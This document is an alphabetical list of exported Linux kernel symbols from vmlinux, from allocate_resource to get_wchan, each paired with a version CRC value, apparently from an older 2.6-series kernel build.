    vmlinux allocate_resource 0xb859c3d0
    vmlinux allow_signal 0xd79b5a02
    vmlinux anon_transport_class_register 0x00899595
    vmlinux anon_transport_class_unregister 0x19b0fe5e
    vmlinux apm_info 0x1d40ed44
    vmlinux arch_acpi_processor_init_pdc 0xad25c01d
    vmlinux arch_register_cpu 0x2dd16564
    vmlinux arch_unregister_cpu 0x0237b57a
    vmlinux arp_broken_ops 0x83748ee1
    vmlinux arp_create 0x7a5f0099
    vmlinux arp_find 0x01ccaf29
    vmlinux arp_rcv 0x06bea935
    vmlinux arp_send 0xea30e2ad
    vmlinux arp_tbl 0x7d34b245
    vmlinux arp_xmit 0xaa4c874c
    vmlinux atm_alloc_charge 0xd05ea689
    vmlinux atm_charge 0x2daf32a5
    vmlinux atm_dev_deregister 0x70b42be0
    vmlinux atm_dev_lookup 0x864fdeec
    vmlinux atm_dev_register 0x3aef3d8c
    vmlinux atm_init_aal5 0x02f52a8a
    vmlinux atm_pcr_goal 0xf49bc67a
    vmlinux atm_proc_root 0x112f746a
    vmlinux attribute_container_add_attrs 0x56d6ccb4
    vmlinux attribute_container_add_class_device 0xc15a8318
    vmlinux attribute_container_add_class_device_adapter 0x060e62ff
    vmlinux attribute_container_class_device_del 0x9b2570e6
    vmlinux attribute_container_classdev_to_container 0xbc1ef755
    vmlinux attribute_container_device_trigger 0xecd7c109
    vmlinux attribute_container_find_class_device 0x3fde1e65
    vmlinux attribute_container_register 0xbe21245c
    vmlinux attribute_container_remove_attrs 0x1d9ef4dc
    vmlinux attribute_container_remove_device 0x785833ca
    vmlinux attribute_container_trigger 0xc95037f7
    vmlinux attribute_container_unregister 0x0eec6a69
    vmlinux autoremove_wake_function 0xc8b57c27
    vmlinux avenrun 0xf1e98c74
    vmlinux balance_dirty_pages_ratelimited 0x15a32621
    vmlinux bd_claim 0xd00ed56e
    vmlinux bd_release 0x77f3cc05
    vmlinux bd_set_size 0x185e5911
    vmlinux bdev_read_only 0xa885bed8
    vmlinux bdevname 0x1ca6fbcd
    vmlinux bdget 0xa2561083
    vmlinux bdput 0x95b7cc53
    vmlinux bfifo_qdisc_ops 0xdcb6df57
    vmlinux bio_add_page 0x30d4bb33
    vmlinux bio_alloc 0xbd95870b
    vmlinux bio_alloc_bioset 0xd77845ab
    vmlinux bio_clone 0x8b2fa3c3
    vmlinux bio_copy_user 0xf176bcf3
    vmlinux bio_endio 0x48ecff43
    vmlinux bio_free 0x0a3960e6
    vmlinux bio_get_nr_vecs 0x71182d9c
    vmlinux bio_hw_segments 0xc8719f55
    vmlinux bio_init 0xa666c9a1
    vmlinux bio_map_kern 0x5b1ff224
    vmlinux bio_map_user 0xc74a81ce
    vmlinux bio_pair_release 0x4f0c4ab1
    vmlinux bio_phys_segments 0x82556d21
    vmlinux bio_put 0x2a7f2f37
    vmlinux bio_split 0x23a6bb8c
    vmlinux bio_split_pool 0x2146f99f
    vmlinux bio_uncopy_user 0x201d5b87
    vmlinux bio_unmap_user 0x2c5d1d89
    vmlinux bioset_create 0x68c208d9
    vmlinux bioset_free 0x35146399
    vmlinux bit_waitqueue 0xd6ae596d
    vmlinux bitmap_allocate_region 0x1ace138d
    vmlinux bitmap_bitremap 0xeea9dbaf
    vmlinux bitmap_find_free_region 0x1551dc51
    vmlinux bitmap_parse 0xb97220ff
    vmlinux bitmap_parselist 0x1b015d25
    vmlinux bitmap_release_region 0x8251bcc3
    vmlinux bitmap_remap 0x5594be03
    vmlinux bitmap_scnlistprintf 0x83a476ce
    vmlinux bitmap_scnprintf 0x4c1182cb
    vmlinux bitreverse 0xbaeb160c
    vmlinux blk_alloc_queue 0x3c207ee5
    vmlinux blk_alloc_queue_node 0x030e03fa
    vmlinux blk_cleanup_queue 0x5752ae4a
    vmlinux blk_complete_barrier_rq 0x5de1dd34
    vmlinux blk_complete_barrier_rq_locked 0xa54bb6ae
    vmlinux blk_congestion_wait 0x1d17e4bd
    vmlinux blk_dump_rq_flags 0x2286cb1f
    vmlinux blk_end_sync_rq 0x62d43fad
    vmlinux blk_execute_rq 0x149663d6
    vmlinux blk_get_backing_dev_info 0x803d9259
    vmlinux blk_get_queue 0xe31e93c8
    vmlinux blk_get_request 0x57662f3f
    vmlinux blk_init_queue 0x7de9490e
    vmlinux blk_init_queue_node 0xf59765da
    vmlinux blk_insert_request 0xe6eaada2
    vmlinux blk_max_low_pfn 0x1163f0a7
    vmlinux blk_max_pfn 0x82e59756
    vmlinux blk_plug_device 0x73759fcc
    vmlinux blk_put_request 0x6adffc30
    vmlinux blk_queue_activity_fn 0x828358e4
    vmlinux blk_queue_bounce 0x4d0fd97a
    vmlinux blk_queue_bounce_limit 0x3a2fee43
    vmlinux blk_queue_dma_alignment 0x9f5ba7d2
    vmlinux blk_queue_end_tag 0x54284257
    vmlinux blk_queue_find_tag 0x12726680
    vmlinux blk_queue_free_tags 0xfe92b89f
    vmlinux blk_queue_hardsect_size 0x401821bc
    vmlinux blk_queue_init_tags 0x39bddf01
    vmlinux blk_queue_invalidate_tags 0xa0381bc6
    vmlinux blk_queue_issue_flush_fn 0x313d77e4
    vmlinux blk_queue_make_request 0xa4a234c5
    vmlinux blk_queue_max_hw_segments 0x82dd8b26
    vmlinux blk_queue_max_phys_segments 0x45a496c1
    vmlinux blk_queue_max_sectors 0xc88ba9fd
    vmlinux blk_queue_max_segment_size 0xe9c326de
    vmlinux blk_queue_merge_bvec 0x64566f74
    vmlinux blk_queue_ordered 0x56dab2e4
    vmlinux blk_queue_prep_rq 0x81cb0e9e
    vmlinux blk_queue_resize_tags 0x4f0f5284
    vmlinux blk_queue_segment_boundary 0x10078aae
    vmlinux blk_queue_stack_limits 0x4e6dd159
    vmlinux blk_queue_start_tag 0xd99d7971
    vmlinux blk_register_region 0x9454229f
    vmlinux blk_remove_plug 0x9cbb23ed
    vmlinux blk_requeue_request 0xf505ed2c
    vmlinux blk_rq_bio_prep 0xbe3714e7
    vmlinux blk_rq_map_kern 0xe311c60a
    vmlinux blk_rq_map_sg 0x445d27a6
    vmlinux blk_rq_map_user 0x1fb25c5c
    vmlinux blk_rq_map_user_iov 0x8add3423
    vmlinux blk_rq_unmap_user 0x36c39b79
    vmlinux blk_run_queue 0x08760eb2
    vmlinux blk_start_queue 0x60fb9564
    vmlinux blk_stop_queue 0xa632a83c
    vmlinux blk_sync_queue 0x6ef7e265
    vmlinux blk_unregister_region 0x3a9b6fb9
    vmlinux blkdev_get 0x1a4536ab
    vmlinux blkdev_ioctl 0x51e7de95
    vmlinux blkdev_issue_flush 0x1ddd581b
    vmlinux blkdev_put 0x413f974f
    vmlinux block_all_signals 0x4b34fbf5
    vmlinux block_commit_write 0x75c5a140
    vmlinux block_invalidatepage 0x4b1c2a6d
    vmlinux block_prepare_write 0xa3937e93
    vmlinux block_read_full_page 0x6a0a8f58
    vmlinux block_sync_page 0x877384d8
    vmlinux block_truncate_page 0x2d5894e7
    vmlinux block_write_full_page 0x91a4f64b
    vmlinux bmap 0x6590dea2
    vmlinux boot_cpu_data 0xeacf98c5
    vmlinux boot_option_idle_override 0xef9aedfc
    vmlinux br_fdb_get_hook 0x650128e7
    vmlinux br_fdb_put_hook 0xb494e82a
    vmlinux br_handle_frame_hook 0x87bbc29e
    vmlinux brioctl_set 0x4e8a4d69
    vmlinux bus_add_device 0x9105d47d
    vmlinux bus_create_file 0x1f2e9a35
    vmlinux bus_find_device 0x977e66d7
    vmlinux bus_for_each_dev 0xbc6a4c92
    vmlinux bus_for_each_drv 0x4242381d
    vmlinux bus_register 0x419fa305
    vmlinux bus_remove_device 0xa80dcdc2
    vmlinux bus_remove_file 0x18e23b1d
    vmlinux bus_rescan_devices 0x48cc3c27
    vmlinux bus_unregister 0x043915b9
    vmlinux call_rcu 0x8706fba7
    vmlinux call_rcu_bh 0xc329096e
    vmlinux call_usermodehelper_keys 0xc85e81ec
    vmlinux cancel_rearming_delayed_work 0xec09d845
    vmlinux cancel_rearming_delayed_workqueue 0x8756724b
    vmlinux cap_bset 0x59ab4080
    vmlinux capable 0x7dceceac
    vmlinux cdev_add 0x3ae9a39c
    vmlinux cdev_alloc 0xbd1e1e21
    vmlinux cdev_del 0x0e047c31
    vmlinux cdev_init 0x234172f7
    vmlinux cfb_copyarea 0x582b9dfe
    vmlinux cfb_fillrect 0x91cb4400
    vmlinux cfb_imageblit 0xa4871967
    vmlinux change_page_attr 0x266797e2
    vmlinux check_disk_change 0xd3bebfbc
    vmlinux class_create 0xed06748d
    vmlinux class_create_file 0x82c59649
    vmlinux class_destroy 0xd4d7c0f9
    vmlinux class_device_add 0xe0efa9be
    vmlinux class_device_create 0x7bec4591
    vmlinux class_device_create_bin_file 0xd75aa802
    vmlinux class_device_create_file 0xfe76bf80
    vmlinux class_device_del 0x83f23a39
    vmlinux class_device_destroy 0x00520587
    vmlinux class_device_get 0xff42fd90
    vmlinux class_device_initialize 0x29f68e14
    vmlinux class_device_put 0x937f3a65
    vmlinux class_device_register 0xa1763b1c
    vmlinux class_device_remove_bin_file 0x13513a5e
    vmlinux class_device_remove_file 0xd1b5841e
    vmlinux class_device_unregister 0x2aa531e5
    vmlinux class_get 0x63616234
    vmlinux class_interface_register 0x939ee3a5
    vmlinux class_interface_unregister 0xe2a40e5d
    vmlinux class_put 0x47f1b609
    vmlinux class_register 0xb2bbc07c
    vmlinux class_remove_file 0x042e9767
    vmlinux class_unregister 0xc889cae6
    vmlinux clear_inode 0xa611d2f5
    vmlinux clear_page_dirty_for_io 0x5e599aaf
    vmlinux clear_user 0x7da99cdd
    vmlinux clip_tbl_hook 0x007a7a52
    vmlinux close_bdev_excl 0x0e7a1d90
    vmlinux cmos_lock 0x9a6a83f9
    vmlinux color_table 0xf6bb4729
    vmlinux complete 0x7e0221e4
    vmlinux complete_all 0x2dbbdd68
    vmlinux complete_and_exit 0xfd59d987
    vmlinux compute_creds 0x4f1917ed
    vmlinux con_copy_unimap 0xcc56fc43
    vmlinux con_set_default_unimap 0x70b6cc56
    vmlinux cond_resched 0xda4008e6
    vmlinux cond_resched_lock 0x5f0c5570
    vmlinux cond_resched_softirq 0x272e7488
    vmlinux console_blank_hook 0xd25d4f74
    vmlinux console_blanked 0xb423dba1
    vmlinux console_conditional_schedule 0xbef43296
    vmlinux console_print 0xb714a981
    vmlinux console_printk 0x2592fc6c
    vmlinux console_start 0xa8f1aafd
    vmlinux console_stop 0x75c1e208
    vmlinux cont_prepare_write 0xfca567fd
    vmlinux contig_page_data 0xb0c64602
    vmlinux copy_from_user 0xf2a644fb
    vmlinux copy_fs_struct 0xd4e887fb
    vmlinux copy_io_context 0xa4c3d3d7
    vmlinux copy_strings_kernel 0xa3653127
    vmlinux copy_to_user 0x2da418b5
    vmlinux cpu_callout_map 0x6122a73e
    vmlinux cpu_core_map 0x4a63a4a0
    vmlinux cpu_data 0x280de8fd
    vmlinux cpu_gdt_descr 0x17e523c4
    vmlinux cpu_idle_wait 0xb53ae573
    vmlinux cpu_khz 0xd6b33026
    vmlinux cpu_online_map 0x8df9f666
    vmlinux cpu_possible_map 0xe1e774bc
    vmlinux cpu_present_map 0x56c5486e
    vmlinux cpu_sibling_map 0x2cfcba0a
    vmlinux cpu_sysdev_class 0x9d88d5c6
    vmlinux cpufreq_cpu_get 0x4dc1a202
    vmlinux cpufreq_cpu_put 0xc399f7a6
    vmlinux cpufreq_driver_target 0x37bc5ce9
    vmlinux cpufreq_get 0x9305f8e6
    vmlinux cpufreq_get_policy 0xe06186de
    vmlinux cpufreq_gov_performance 0xa43404d3
    vmlinux cpufreq_governor 0xc2018172
    vmlinux cpufreq_notify_transition 0xe6488b47
    vmlinux cpufreq_parse_governor 0xcf6e780e
    vmlinux cpufreq_register_driver 0xc0f50c89
    vmlinux cpufreq_register_governor 0x358c3e75
    vmlinux cpufreq_register_notifier 0xadaa2657
    vmlinux cpufreq_set_policy 0xfcc932e9
    vmlinux cpufreq_unregister_driver 0xbd92252c
    vmlinux cpufreq_unregister_governor 0xcef1a857
    vmlinux cpufreq_unregister_notifier 0x3b3016d3
    vmlinux cpufreq_update_policy 0x8664f62e
    vmlinux crc32_be 0xb7b61546
    vmlinux crc32_le 0xa34f1ef5
    vmlinux create_empty_buffers 0x671b05f7
    vmlinux create_proc_entry 0x1b75d95d
    vmlinux create_proc_ide_interfaces 0xab2c600e
    vmlinux crypto_alg_available 0x2f849e07
    vmlinux crypto_alloc_tfm 0x898adc88
    vmlinux crypto_free_tfm 0x5be0e6f0
    vmlinux crypto_hmac 0x56705515
    vmlinux crypto_hmac_final 0xbf311c1d
    vmlinux crypto_hmac_init 0x4491dbc1
    vmlinux crypto_hmac_update 0xb936d5eb
    vmlinux crypto_register_alg 0xd81c033e
    vmlinux crypto_unregister_alg 0xdee51af0
    vmlinux csum_partial 0x9a3de8f8
    vmlinux csum_partial_copy_fromiovecend 0x02876657
    vmlinux csum_partial_copy_generic 0xd7359fa8
    vmlinux current_fs_time 0xbe662ef7
    vmlinux current_io_context 0x94c79532
    vmlinux current_kernel_time 0x74cc238d
    vmlinux d_alloc 0xddadaf7e
    vmlinux d_alloc_anon 0x9b571fed
    vmlinux d_alloc_name 0xacde5076
    vmlinux d_alloc_root 0xad8339cb
    vmlinux d_delete 0xb9199f91
    vmlinux d_find_alias 0xf9a2750c
    vmlinux d_genocide 0x4628343c
    vmlinux d_instantiate 0xaab799b0
    vmlinux d_instantiate_unique 0x02252605
    vmlinux d_invalidate 0xee1f4574
    vmlinux d_lookup 0x7ef6734d
    vmlinux d_move 0xded22b0b
    vmlinux d_path 0xbe74807f
    vmlinux d_prune_aliases 0x941e4e4b
    vmlinux d_rehash 0xa8281ac5
    vmlinux d_splice_alias 0x6aa3ca75
    vmlinux d_validate 0x274bef0b
    vmlinux daemonize 0xdc43a9c8
    vmlinux datagram_poll 0xb35eabc6
    vmlinux dcache_dir_close 0xde6fdba0
    vmlinux dcache_dir_lseek 0xaa816767
    vmlinux dcache_dir_open 0x54c9aaba
    vmlinux dcache_lock 0x179ec4b8
    vmlinux dcache_readdir 0x80ddcd94
    vmlinux dcookie_register 0x3f238101
    vmlinux dcookie_unregister 0x92fb217b
    vmlinux deactivate_super 0x36f403dc
    vmlinux default_backing_dev_info 0x2a534296
    vmlinux default_blu 0x10ee20bb
    vmlinux default_grn 0x06fe3b14
    vmlinux default_hwif_mmiops 0xc94dc948
    vmlinux default_idle 0x92897e3d
    vmlinux default_llseek 0x2ba0c2be
    vmlinux default_red 0x3147857d
    vmlinux default_unplug_io_fn 0x320caf90
    vmlinux default_wake_function 0xffd5a395
    vmlinux del_gendisk 0xc27dbcd3
    vmlinux del_timer 0x5943d3e7
    vmlinux del_timer_sync 0x594eac68
    vmlinux dentry_open 0xd0c45523
    vmlinux dentry_unhash 0x0a8b2e28
    vmlinux dequeue_signal 0xf80b9799
    vmlinux deregister_atm_ioctl 0xcd2e5eac
    vmlinux destroy_8023_client 0x826068f6
    vmlinux destroy_EII_client 0xd7386a6b
    vmlinux destroy_workqueue 0x21db6958
    vmlinux dev_add_pack 0xc335802b
    vmlinux dev_alloc_name 0x68bd9494
    vmlinux dev_base 0x3babd386
    vmlinux dev_base_lock 0x01ab0f38
    vmlinux dev_change_flags 0xf622327b
    vmlinux dev_close 0xf75ff2e6
    vmlinux dev_ethtool 0xd5614e73
    vmlinux dev_get_by_flags 0x5fa5209d
    vmlinux dev_get_by_index 0x9e0473a9
    vmlinux dev_get_by_name 0x9ab4fcbb
    vmlinux dev_get_flags 0x13a84692
    vmlinux dev_getbyhwaddr 0x0004048c
    vmlinux dev_getfirstbyhwtype 0xc0f404ff
    vmlinux dev_ioctl 0x387c78a5
    vmlinux dev_load 0xa90fd3b7
    vmlinux dev_mc_add 0xf7791088
    vmlinux dev_mc_delete 0xe840d6bd
    vmlinux dev_mc_upload 0xc433f6da
    vmlinux dev_open 0x6cedb683
    vmlinux dev_queue_xmit 0xdca891e5
    vmlinux dev_remove_pack 0xb2a9cc90
    vmlinux dev_set_allmulti 0xa0286504
    vmlinux dev_set_mac_address 0xd9b7c3e5
    vmlinux dev_set_mtu 0x11ecea3b
    vmlinux dev_set_promiscuity 0x1d3aa4a6
    vmlinux dev_valid_name 0x65414e67
    vmlinux device_add 0xeb8651bd
    vmlinux device_attach 0xdfaf3b22
    vmlinux device_bind_driver 0x236ed40c
    vmlinux device_create_file 0x99098911
    vmlinux device_del 0x1fa832c1
    vmlinux device_for_each_child 0x43fb3be8
    vmlinux device_initialize 0x42fec2b3
    vmlinux device_pm_set_parent 0xa9acd752
    vmlinux device_power_down 0x9241c3ee
    vmlinux device_power_up 0x4b88e224
    vmlinux device_register 0xc9f685ac
    vmlinux device_release_driver 0x5f20489f
    vmlinux device_remove_file 0xf120e0c3
    vmlinux device_resume 0x6dcf00dd
    vmlinux device_suspend 0xb27005f5
    vmlinux device_unregister 0x47c46da9
    vmlinux devinet_ioctl 0x869c80ea
    vmlinux dget_locked 0x9d254509
    vmlinux disable_hlt 0x794487ee
    vmlinux disable_irq 0x3ce4ca6f
    vmlinux disable_irq_nosync 0x27bbf221
    vmlinux disable_timer_nmi_watchdog 0xf2fb62ee
    vmlinux disallow_signal 0xbb189cad
    vmlinux dlci_ioctl_set 0xe5867808
    vmlinux dma_alloc_coherent 0x7299ef71
    vmlinux dma_declare_coherent_memory 0xafed8529
    vmlinux dma_free_coherent 0x48303b84
    vmlinux dma_get_required_mask 0x92edc57d
    vmlinux dma_mark_declared_memory_occupied 0x02226d80
    vmlinux dma_pool_alloc 0x32ed69a2
    vmlinux dma_pool_create 0x5062d2a7
    vmlinux dma_pool_destroy 0x0759a185
    vmlinux dma_pool_free 0x04ef3210
    vmlinux dma_release_declared_memory 0x0f01db27
    vmlinux dma_spin_lock 0x028d62f7
    vmlinux dmi_check_system 0xf5633477
    vmlinux dmi_find_device 0xfe7bde5e
    vmlinux dmi_get_system_info 0x6a5b6ea4
    vmlinux dnotify_parent 0x9ba3df36
    vmlinux do_SAK 0x1c9b65ff
    vmlinux do_add_mount 0x84005d31
    vmlinux do_blank_screen 0xe5c78a99
    vmlinux do_brk 0x9eecde16
    vmlinux do_exit 0x7ea7d551
    vmlinux do_generic_mapping_read 0x2b50a0c2
    vmlinux do_gettimeofday 0x72270e35
    vmlinux do_kern_mount 0xa4e218d1
    vmlinux do_mmap_pgoff 0x6a636d06
    vmlinux do_munmap 0x28e0406c
    vmlinux do_posix_clock_nonanosleep 0xd9aaf367
    vmlinux do_posix_clock_nosettime 0x09548e7d
    vmlinux do_posix_clock_notimer_create 0xf4444751
    vmlinux do_settimeofday 0xd6035d05
    vmlinux do_softirq 0xf0a529b7
    vmlinux do_sync_read 0xf9b1880d
    vmlinux do_sync_write 0x634ae6da
    vmlinux do_unblank_screen 0x600683d3
    vmlinux dpm_runtime_resume 0x1862ade6
    vmlinux dput 0xe5ccfefa
    vmlinux dq_data_lock 0x22ca4cc3
    vmlinux dqstats 0xf4f52f93
    vmlinux dquot_acquire 0x80f5f56c
    vmlinux dquot_alloc_inode 0xfcc9933e
    vmlinux dquot_alloc_space 0xf34a6e2c
    vmlinux dquot_commit 0x3a987cbe
    vmlinux dquot_commit_info 0xcc3a3711
    vmlinux dquot_drop 0x8ff8e400
    vmlinux dquot_free_inode 0x7441e0fa
    vmlinux dquot_free_space 0xd024ea51
    vmlinux dquot_initialize 0xdcd37b56
    vmlinux dquot_mark_dquot_dirty 0xde657826
    vmlinux dquot_release 0x219b04d1
    vmlinux dquot_transfer 0x8fd8cfea
    vmlinux drive_info 0x5aaa7cd3
    vmlinux drive_is_ready 0x00161aff
    vmlinux driver_attach 0x4e8ad559
    vmlinux driver_create_file 0x4cb0ff4b
    vmlinux driver_find 0x6f9f726b
    vmlinux driver_find_device 0x65c5c023
    vmlinux driver_for_each_device 0x44445303
    vmlinux driver_register 0x5de7d716
    vmlinux driver_remove_file 0x6d54212c
    vmlinux driver_unregister 0xb0e30139
    vmlinux drop_super 0xc220282d
    vmlinux dst_alloc 0x3924c7e1
    vmlinux dst_destroy 0xc7cc7e87
    vmlinux dump_fpu 0xf7e7d3e6
    vmlinux dump_stack 0x6b2dc060
    vmlinux dump_thread 0xae90b20c
    vmlinux ec_read 0xba2d8594
    vmlinux ec_write 0x876dafc3
    vmlinux edid_info 0xbbb98859
    vmlinux efi 0x4f1b2bc8
    vmlinux efi_enabled 0x0933aae1
    vmlinux eighty_ninty_three 0x7ffd381d
    vmlinux eisa_bus_type 0xd60cca39
    vmlinux eisa_driver_register 0x151d7157
    vmlinux eisa_driver_unregister 0x6314272e
    vmlinux elevator_exit 0x3d65568b
    vmlinux elevator_init 0xe60d16b3
    vmlinux elv_add_request 0x49b1d6f6
    vmlinux elv_completed_request 0x54c82f27
    vmlinux elv_dequeue_request 0x13e5cfb7
    vmlinux elv_dispatch_sort 0xd1ac245d
    vmlinux elv_next_request 0x3dacda26
    vmlinux elv_queue_empty 0x3a431de8
    vmlinux elv_register 0x2fc70c9f
    vmlinux elv_requeue_request 0xd2a324c8
    vmlinux elv_rq_merge_ok 0x295f09f8
    vmlinux elv_try_merge 0xe7bfdaf9
    vmlinux elv_unregister 0x086c747c
    vmlinux emergency_restart 0xd0c05159
    vmlinux enable_hlt 0x9c7077bd
    vmlinux enable_irq 0xfcec0987
    vmlinux enable_timer_nmi_watchdog 0x13f54343
    vmlinux end_buffer_async_write 0x9901f70d
    vmlinux end_buffer_read_sync 0x855664b8
    vmlinux end_buffer_write_sync 0xa16402cd
    vmlinux end_page_writeback 0x884163a2
    vmlinux end_request 0xfee0048f
    vmlinux end_that_request_chunk 0x1b4d656d
    vmlinux end_that_request_first 0xda2d0425
    vmlinux end_that_request_last 0x3df95948
    vmlinux eth_type_trans 0x6880a553
    vmlinux ether_setup 0xd3f2b59a
    vmlinux ethtool_op_get_link 0x2ab9626c
    vmlinux ethtool_op_get_perm_addr 0x20e9a21b
    vmlinux ethtool_op_get_sg 0x1560a3a8
    vmlinux ethtool_op_get_tso 0xc7356dec
    vmlinux ethtool_op_get_tx_csum 0x4880fff3
    vmlinux ethtool_op_get_ufo 0x2d5d894c
    vmlinux ethtool_op_set_sg 0x53da1230
    vmlinux ethtool_op_set_tso 0x13d01618
    vmlinux ethtool_op_set_tx_csum 0x623b8e35
    vmlinux ethtool_op_set_tx_hw_csum 0x6381b2f8
    vmlinux ethtool_op_set_ufo 0xbbdcde14
    vmlinux exit_fs 0xe2c60bc8
    vmlinux f_setown 0x7474f0b3
    vmlinux fasync_helper 0x59bf524c
    vmlinux fb_add_videomode 0x6d990e2b
    vmlinux fb_alloc_cmap 0x07a890c8
    vmlinux fb_blank 0x4dff32fc
    vmlinux fb_con_duit 0xb381ed5b
    vmlinux fb_copy_cmap 0xeab419a2
    vmlinux fb_dealloc_cmap 0x098b71c6
    vmlinux fb_default_cmap 0xa56557ea
    vmlinux fb_delete_videomode 0xa2235d26
    vmlinux fb_destroy_modedb 0x1dc36131
    vmlinux fb_destroy_modelist 0xc9561772
    vmlinux fb_edid_to_monspecs 0xff9ca065
    vmlinux fb_find_best_display 0x3154a9fe
    vmlinux fb_find_best_mode 0x3d481654
    vmlinux fb_find_mode 0x56686782
    vmlinux fb_find_mode_cvt 0xe3d6f284
    vmlinux fb_find_nearest_mode 0xaf12ad6e
    vmlinux fb_firmware_edid 0x8339f410
    vmlinux fb_get_buffer_offset 0x09b0e71f
    vmlinux fb_get_color_depth 0x5600904f
    vmlinux fb_get_mode 0xdf1ed149
    vmlinux fb_get_options 0xcb7131fb
    vmlinux fb_invert_cmaps 0xf195c682
    vmlinux fb_match_mode 0x11d0d380
    vmlinux fb_mode_is_equal 0x9db7b1a0
    vmlinux fb_new_modelist 0x852abbad
    vmlinux fb_pad_aligned_buffer 0x89d5538d
    vmlinux fb_pad_unaligned_buffer 0x986e6135
    vmlinux fb_pan_display 0x84c275a7
    vmlinux fb_parse_edid 0x9c012508
    vmlinux fb_prepare_logo 0x6a08cc81
    vmlinux fb_register_client 0x5934392b
    vmlinux fb_set_cmap 0xa612fce2
    vmlinux fb_set_suspend 0x83604278
    vmlinux fb_set_var 0xe5beaa7f
    vmlinux fb_show_logo 0x039f062d
    vmlinux fb_unregister_client 0xcc36f32e
    vmlinux fb_validate_mode 0x2ad99451
    vmlinux fb_var_to_videomode 0x461c6d01
    vmlinux fb_videomode_to_modelist 0xf2707cb1
    vmlinux fb_videomode_to_var 0xb5cdc522
    vmlinux fd_install 0xb690fbde
    vmlinux fddi_type_trans 0xac85e1cb
    vmlinux fg_console 0x4e6e8ea7
    vmlinux fget 0x97a7d39b
    vmlinux file_fsync 0x760df94e
    vmlinux file_lock_list 0x6e85119d
    vmlinux file_permission 0xd7c5a00e
    vmlinux filemap_fdatawait 0x86391075
    vmlinux filemap_fdatawrite 0x82ec1187
    vmlinux filemap_flush 0x526a2a18
    vmlinux filemap_nopage 0x3d7209cc
    vmlinux filemap_populate 0x91bb63af
    vmlinux files_stat 0x03cada27
    vmlinux filp_close 0x94eccdb9
    vmlinux filp_open 0x74d2daa7
    vmlinux find_bus 0xe6d125a7
    vmlinux find_get_page 0xf655fd94
    vmlinux find_inode_number 0xae650900
    vmlinux find_lock_page 0xc9f58eb6
    vmlinux find_next_bit 0x2ff92ca0
    vmlinux find_next_zero_bit 0xdc01a06e
    vmlinux find_or_create_page 0x46a24b3f
    vmlinux find_task_by_pid_type 0xca9a74cf
    vmlinux find_trylock_page 0x4d900550
    vmlinux find_vma 0x44ac4e97
    vmlinux finish_wait 0x865edc9b
    vmlinux firmware_register 0x7ee3aca4
    vmlinux firmware_unregister 0x7523ae01
    vmlinux flock_lock_file_wait 0x126b5da4
    vmlinux flow_cache_genid 0x3d68bd4b
    vmlinux flow_cache_lookup 0xbdf025aa
    vmlinux flush_old_exec 0xb601c093
    vmlinux flush_scheduled_work 0x00801678
    vmlinux flush_signals 0xfb77e8a5
    vmlinux flush_tlb_page 0xabee379d
    vmlinux flush_workqueue 0xcf283ccb
    vmlinux follow_down 0xdd14a426
    vmlinux follow_up 0xef0ef8ee
    vmlinux force_sig 0x78feb07b
    vmlinux fput 0x2b467429
    vmlinux framebuffer_alloc 0xa09542e9
    vmlinux framebuffer_release 0xa917992f
    vmlinux free_buffer_head 0xd5ea2fb5
    vmlinux free_dma 0x72b243d4
    vmlinux free_irq 0xf20dabd8
    vmlinux free_netdev 0x608d899e
    vmlinux free_pages 0x9941ccb8
    vmlinux free_percpu 0xd012c83a
    vmlinux free_task 0xeea1ba55
    vmlinux freeze_bdev 0xe0f278bf
    vmlinux fs_overflowgid 0xdf929370
    vmlinux fs_overflowuid 0x25820c64
    vmlinux fsync_bdev 0xcbd29dcf
    vmlinux gen_kill_estimator 0xeb37482a
    vmlinux gen_new_estimator 0x0f93d64c
    vmlinux gen_replace_estimator 0x46b64038
    vmlinux generate_random_uuid 0xa681fe88
    vmlinux generic__raw_read_trylock 0x2252f01b
    vmlinux generic_block_bmap 0x90223ff3
    vmlinux generic_commit_write 0x5aba8233
    vmlinux generic_cont_expand 0x80188aff
    vmlinux generic_delete_inode 0x79718b5c
    vmlinux generic_drop_inode 0xa3bdf892
    vmlinux generic_file_aio_read 0xe55ef89f
    vmlinux generic_file_aio_write 0x9fa51c26
    vmlinux generic_file_aio_write_nolock 0xd3a94c8b
    vmlinux generic_file_buffered_write 0x5f935f6a
    vmlinux generic_file_direct_write 0xfd437185
    vmlinux generic_file_llseek 0x1a87e757
    vmlinux generic_file_mmap 0xd3302e8d
    vmlinux generic_file_open 0xe4124b1a
    vmlinux generic_file_read 0xc9d20d6e
    vmlinux generic_file_readonly_mmap 0xf2a78e3c
    vmlinux generic_file_readv 0x90348363
    vmlinux generic_file_sendfile 0xb616ca88
    vmlinux generic_file_write 0x62fd13fa
    vmlinux generic_file_write_nolock 0x14fb7711
    vmlinux generic_file_writev 0x7b1471cf
    vmlinux generic_fillattr 0x6d223582
    vmlinux generic_getxattr 0x3bd2e29d
    vmlinux generic_ide_ioctl 0x4292d137
    vmlinux generic_listxattr 0x4a5e3cdd
    vmlinux generic_make_request 0x5de75531
    vmlinux generic_osync_inode 0x6064339d
    vmlinux generic_permission 0x3fabaefe
    vmlinux generic_read_dir 0xda898605
    vmlinux generic_readlink 0x276e49c5
    vmlinux generic_removexattr 0x32fdf005
    vmlinux generic_ro_fops 0x3bcde658
    vmlinux generic_setxattr 0x0d8d523f
    vmlinux generic_shutdown_super 0x0b522130
    vmlinux generic_unplug_device 0x977aefc5
    vmlinux generic_write_checks 0x5fb4a749
    vmlinux genl_register_family 0x4ea53e22
    vmlinux genl_register_ops 0x695ae5f8
    vmlinux genl_sock 0xaa6adce4
    vmlinux genl_unregister_family 0x4eddbbbc
    vmlinux genl_unregister_ops 0xfcb92f22
    vmlinux get_bus 0xb71c9327
    vmlinux get_cmos_time 0xb31ddfb4
    vmlinux get_cpu_sysdev 0xc5a380c2
    vmlinux get_dcookie 0x8cbdb73e
    vmlinux get_device 0xcf6f9550
    vmlinux get_disk 0x8418673b
    vmlinux get_driver 0x61e8eaae
    vmlinux get_empty_filp 0x5d75ace4
    vmlinux get_fs_type 0xbe13c3ca
    vmlinux get_io_context 0x116caeb2
    vmlinux get_jiffies_64 0x37e74642
    vmlinux get_option 0xb0e10781
    vmlinux get_options 0x868acba5
    vmlinux get_random_bytes 0x79aa04a2
    vmlinux get_sb_bdev 0xb7c39cb4
    vmlinux get_sb_nodev 0x2664eda8
    vmlinux get_sb_pseudo 0xfc78ca21
    vmlinux get_sb_single 0xb506cc56
    vmlinux get_super 0x361b4429
    vmlinux get_task_mm 0x951c3728
    vmlinux get_unmapped_area 0x6707306b
    vmlinux get_unused_fd 0x99bfbe39
    vmlinux get_user_pages 0x583cd45e
    vmlinux get_wchan 0x31893524
